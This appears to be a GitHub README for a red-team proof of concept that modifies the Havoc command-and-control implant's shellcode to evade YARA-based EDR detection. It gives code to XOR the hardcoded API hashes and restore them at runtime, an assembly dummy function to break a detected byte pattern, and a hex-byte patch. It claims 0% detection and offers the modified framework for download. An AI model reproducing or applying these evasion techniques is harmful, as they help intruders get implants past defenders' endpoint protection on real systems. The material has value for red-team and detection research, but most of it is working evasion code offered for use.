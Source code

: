 # Havoc-C2-Modification-YARA-Free

# POC of modifying YARA signautre on [Havoc C2](https://github.com/HavocFramework/Havoc). 
This project was from a red team engagement where I modified an open-source Command-and-Control (C2) framework to ensure it was YARA-free, enabling safer in-memory execution via a loader and evading detection by common YARA scans used by Endpoint Detection and Response (EDR) systems. I successfully achieved 0% YARA detection. The main steps are as follows:

First when I did a yara scan using a simple [python script](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Yara%20Scan%20Checker/yara_check.py) on a piece of shellcode I got the following YARA signature

![yara](images/yara-scan.png)

These hashes are generated by [hash_func.py](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/scripts/hash_func.py) and hardcoded in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h). I used the following steps to modify the shellcode source.


1.Modify [hash_func.py](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/scripts/hash_func.py) to generate different hash values that are flagged by YARA rules

```js
import sys

def hash_string( string ):
    try:
        hash = 5381

        for x in string.upper():
            hash = (( hash << 5 ) + hash ) + ord(x)

            hash ^= 0xA5A5A5A5 // we are xoring the hash values with the key 

        return hash & 0xFFFFFFFF
    except:
        pass

def hash_coffapi( string ):
    try:
        hash = 5381

        for x in string:
            hash = (( hash << 5 ) + hash ) + ord(x)

        
            hash ^= 0xA5A5A5A5 // we are xoring the hash values with the key  


        return hash & 0xFFFFFFFF
    except:
        pass

if __name__ in '__main__':
    try:
        print('#define H_FUNC_%s 0x%x' % ( sys.argv[ 1 ].upper(), hash_string( sys.argv[ 1 ] ) ));
        print('#define H_COFFAPI_%s 0x%x' % ( sys.argv[ 1 ].upper(), hash_coffapi( sys.argv[ 1 ] ) ));
    except IndexError:
        print('usage: %s [string]' % sys.argv[0]);
```

2.Replace them in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h)

```js
define XOR_KEY 0xA5A5A5A5


#define H_FUNC_LDRLOADDLL 0x3be0cfe6
#define H_FUNC_LDRGETPROCEDUREADDRESS 0x5942ce13
#define H_FUNC_NTADDBOOTENTRY 0x295962d3
#define H_FUNC_NTALLOCATEVIRTUALMEMORY 0x52261d49
#define H_FUNC_NTFREEVIRTUALMEMORY 0x8da763ac
#define H_FUNC_NTUNMAPVIEWOFSECTION 0xcf01b768
#define H_FUNC_NTWRITEVIRTUALMEMORY 0x66b2a437
#define H_FUNC_NTSETINFORMATIONVIRTUALMEMORY 0x31cf679c
#define H_FUNC_NTQUERYVIRTUALMEMORY 0xb5654df8
#define H_FUNC_NTOPENPROCESSTOKEN 0x90a86f3c
#define H_FUNC_NTOPENTHREADTOKEN 0x2596e277
```
3. Add the XOR logic in [Win32.c](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/src/core/Win32.c), the idea is to dynamicly XORing back to the orignal values of the API hash functions during run time, so YARA will not flag the hardcoded values in demon.bin defined in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h)

```js
#define XOR_KEY 0xA5A5A5A5 // the key we used to xor the hash values


PVOID LdrFunctionAddr(
    IN PVOID Module,
    IN DWORD Hash
) {
    PIMAGE_NT_HEADERS       NtHeader         = { 0 };
    PIMAGE_EXPORT_DIRECTORY ExpDirectory     = { 0 };
    SIZE_T                  ExpDirectorySize = { 0 };
    PDWORD                  AddrOfFunctions  = { 0 };
    PDWORD                  AddrOfNames      = { 0 };
    PWORD                   AddrOfOrdinals   = { 0 };
    PVOID                   FunctionAddr     = { 0 };
    PCHAR                   FunctionName     = { 0 };
    ANSI_STRING             AnsiString       = { 0 };

    if ( ! Module || ! Hash )
        return NULL;

    NtHeader         = C_PTR( Module + ( ( PIMAGE_DOS_HEADER ) Module )->e_lfanew );
    ExpDirectory     = C_PTR( Module + NtHeader->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_EXPORT ].VirtualAddress );
    ExpDirectorySize = U_PTR( Module + NtHeader->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_EXPORT ].Size );

    AddrOfNames      = C_PTR( Module + ExpDirectory->AddressOfNames );
    AddrOfFunctions  = C_PTR( Module + ExpDirectory->AddressOfFunctions );
    AddrOfOrdinals   = C_PTR( Module + ExpDirectory->AddressOfNameOrdinals );

    if (IsPredefinedHash(Hash)) {
        Hash ^= XOR_KEY; // use the same key to xor back whenever the demon calls hashes APIs
    }

```

4. Modify the [Asm.s](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Shellcode/Source/Asm/x64/Asm.s) Assemby and add a dummy functions to break the ROP gadget logic to evade YARA detection 

`````js
; Define the dummy function
DummyFunction:
        ; Save registers (if needed)
        push    rax
        push    rbx
        push    rcx
        push    rdx

        ; Dummy operations
        nop     ; No operation
        nop     ; No operation
        nop     ; No operation

        ; Restore registers
        pop     rdx
        pop     rcx
        pop     rbx
        pop     rax

        ; Return from the dummy function
    ret

section .text$A
	Start:
        call    DummyFunction     // break the following calling logic    
        push    rsi               // <-----detection starts here
        nop                       
        mov		rsi, rsp
``````

5. Last step is to  manually remove using the [Hxd tool](https://mh-nexus.de/en/hxd/) to  change one hex value

    Step 4 and 5 refer the that [blog](https://karma-x.io/blog/post/18/) and the demo below

    Click [here](https://drive.google.com/file/d/13tZNTVFa5PXiA4tVN17b8KBguBuCT-M-/view) to check out demo for manually modifying the hex value


<video width="600" controls>
  <source src="https://drive.google.com/file/d/13tZNTVFa5PXiA4tVN17b8KBguBuCT-M-/view" type="video/mp4">
  Your browser does not support the video tag.
</video>



6. The whole modified havoc is here, you can download and compile your own to make modificatio and YARA check using a simple [python script](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Yara%20Scan%20Checker/yara_check.py) like the following with updated [yara rules](https://github.com/elastic/protections-artifacts), you can add [pe-sieve](https://github.com/hasherezade/pe-sieve) and [moneta](https://github.com/forrest-orr/moneta) in the script to check addtioanl memory region for the shellcode and modify it accordingly.


```js
import os
import sys
import subprocess


directory = ('C:\\Users\\User\\Downloads\\Mem_Scan\\protections-artifacts-main\\protections-artifacts-main\\yara\\rules')
target = 'C:\\Users\\User\\Desktop\\Payloads\\Products\\double_module_stomp\\PayloadLoader\\x64\\Release\\DllLoader.dll'

for fileanme in os.listdir(directory):
    filepath = os.path.join(directory, fileanme)

    if os.path.isfile(filepath):
        cmd = ['yara64.exe','-s', filepath, target]
        result = subprocess.run(cmd, capture_output=True, text=True)
        if result.stdout:
            with open('yara_loader_result.txt', 'a') as f:
                outout = f'Detected===>!!!\\n{filepath} ====>\n {result.stdout}'
                print(outout)

```

# DEMO 

You can also check out the demo for the final version of the cleaned shellcode YARA scan [here](https://drive.google.com/file/d/1vkOEhy7eR_kjewiJaoxkTosBVLG5HxkB/view?usp=sharing)



